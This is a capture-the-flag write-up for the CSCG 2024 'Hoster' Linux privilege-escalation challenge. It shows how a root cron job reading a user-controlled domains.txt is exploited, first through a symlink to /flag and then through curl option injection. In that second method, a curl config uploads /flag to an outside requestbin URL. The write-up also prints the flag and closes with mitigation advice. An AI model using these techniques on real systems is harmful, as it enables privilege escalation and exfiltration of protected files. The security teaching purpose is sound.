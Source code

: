 ```yaml
---
title: Hoster
author: Adrian Junge
description: You gained access to a Linux server. Can you also gain privileges?
categories:
    - PrivEsc
year: 2024
---
```


# TL;DR
    **- Challenge Setup:** SSH access as low privileged user - `/flag` is only accessible as root
    **- Key Discoveries:** Identifying root cron job via **PSPY** running `dig` and `curl` commands
    **- Vulnerability:** Cron job relying on `/config/domains.txt` is accessible by low privileged user
    **- Exploitation Variant 1:** Creating symlink `/config/domains.txt` to `/flag`
    **- Exploitation Variant 2:** Command option injection using `-K/tmp/config` to upload the flag by the used `curl`

# 1. Introduction<a name="introduction"></a>
The description of this challenge already reveals what kind of ctf type this is gonna be about:

```
You gained access to a Linux server. Can you also gain privileges?
```

# 2. Reconnaissance<a name="reconnaissance"></a>
As you can already read in the challenge description, this challenge is all about privilege escalation on a Linux server. This means you start as a low-privilege user and have to elevate your privileges to root. All you get is SSH access to the challenge machine. You just start as a low-privileged ctf user. Looking around you find the following information: The flag is in the root directory in the `/flag` file which only the root user has read and write access to. So somehow you have to get root to read the flag file and give the content to us. In your home directory in `/config` is a file `domains.txt` but you don’t have enough permissions to read or edit the file. By having a look at the running processes you can see that the cron daemon is running:

![psauxw](ctf/writeups/cscg/hoster/psauxw.png "psauxw")

But nothing is going on in `/etc/crontab` where usually cronjobs are written. So there might be a hidden cronjob running under root. So how can you find out what the cronjob is doing? There is a beautiful tool named **PSPY** snooping all running processes without needing any root permissions. So you can see which commands are being run by other users and cron jobs. Downloading the script from [PSYP](https://github.com/DominicBreuker/pspy) and running it reveals the root cron job:

![pspy](ctf/writeups/cscg/hoster/pspy.png "pspy")

It seems like the cron job is simply running the `request_certificates.sh` script. All this script does is to iterate over each line of your `domains.txt` checking for a valid certificate and then executing the curl command:

```bash
#!/bin/bash

for file in /var/www/*; do
    echo "$file"
    if [ -f $file/config/domains.txt ]
    then
        while IFS="" read -r p || [ -n "$p" ]
        do
            if ( dig "$p" | grep -q 'NXDOMAIN' ) || ( dig "$p" 2>&1 | grep -q 'Invalid' ) || ( dig "$p" | grep -q 'SERVFAIL' )
            then
                echo "[-] Error resolving the domain"
            else
                curl -I "$p"
                # certbot -d "$p"
            fi
        done < $file/config/domains.txt
    else
        echo "[-] Not a file"
    fi
fi
```

So having a look again at the output of **PSPY** the `domains.txt` must contain a line *cscg.de* which is part of the arguments for the curl command.


# 3. Vulnerability Description<a name="vulnerability description"></a>
My initial thoughts were some kind of bash command injection via the *$file* in the first if statement. But sadly you can’t create or edit any directories in `/var/www/` so this won’t work. After playing around for some time I figured out that you can just remove the whole `/config` directory with `rm -rf /config` because you have full permissions over your home directory. So you can just create a new directory `/config` and add your version of the `domains.txt`. Now you have full control over the `domains.txt` and so full control over what is being executed as a command parameter for `dig` and `curl` in the `request_certificates.sh` script.


# 4. Exploitation<a name="exploitation"></a>
## 4.1 Exploitation Variant 1<a name="exploitation variant 1"></a>
My approach was exploiting the script via a symlink with `ln -s  /flag config/domains.txt` pointing to `/flag` so the script would read the content of your flag file and give it as a parameter to the dig command. By running **PSPY** you will just see the dig command being executed with the flag as the parameter. Of course, there are other possible solutions to reveal the flag by `for (( ; ; )); do ps aux >> log; done` effectively spamming `ps aux` and searching for the flag prefix or writing some small script doing this for you:

```bash
search_string="CSCG"
while true; do
    ps_output=$(ps aux)
    if [[ "$ps_output" == *"$search_string"* ]]; then
            echo $ps_output
            break;
    fi
done
```

## 4.2 Exploitation Variant 2<a name="exploitation variant 2"></a>
The intended solution was about command option injection. The problem was to find a parameter fitting both the dig and the `curl` commands and eventually upload the content of `/flag` to your server. With the -K option for `curl` you can define a path of a config file being used by `curl`. But there is a little problem with this parameter. The `dig` command doesn’t have an option -K so the if statement around `dig` in the script will fail. You need another option that won’t result in an output of dig containing *NXDOMAIN*, *Invalid* and *SERVFAIL*. Additionally, this option has to be a valid option for the `curl` command. There were multiple options like the `-f` argument which is the option for a silent fail in `curl` and the option to define a file path for `dig` to interact with. By defining a config file for curl with content like

```bash
echo "-fK/tmp/config" > config/domains.txt
cat <<EOF > /tmp/config
url = https://...pipedream.net
upload-file = /flag
EOF
```

the cronjob will eventually upload the file to your server

![flag-requestbin](ctf/writeups/cscg/hoster/flag_requestbin.png "flag-requestbin")


# 5. Mitigation<a name="mitigation"></a>
At first, you shouldn’t use root cron jobs if not necessary. In this case, a cron job executed by a low-privilege user would have done the job as well by giving the user reading permissions to the `domains.txt` or making it readable for only this user. Another problem was the access the low-privilege ctf user had to the directory where the `domains.txt` was placed. When using a root cron job which interacts with some files always make sure that the files and the parent directories are only accessible by root. If you have to place the file in a directory controlled by another user make the file immutable. It will stay there even when the user tries to modify the directory.

# 6. Flag<a name="flag"></a>
CSCG{1nject1ng\_0pti0ns\_1nste4d\_of\_c0mm4nds}


# 7. References<a name="references"></a>
- [PSPY](https://github.com/DominicBreuker/pspy)

